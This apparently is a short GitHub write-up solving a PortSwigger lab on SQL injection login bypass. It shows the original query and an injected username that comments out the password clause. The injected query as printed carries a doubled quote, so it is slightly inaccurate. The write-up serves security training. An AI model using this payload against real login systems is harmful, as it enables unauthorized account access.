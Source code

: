 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88b33b2a-1f08-41b5-91fa-c1baecc2a18b)

## Solution :

Query made --

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'hddkdkdkk'
```

For bypass the login just comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator''-- AND password = 'hddkdkdkk'
```
![Screenshot 2024-02-01 152406](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8d4ddfcc-1379-4d7b-9cb8-bd40923798b2)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4a102489-2b97-4f19-9c91-525ffd40f3d8)

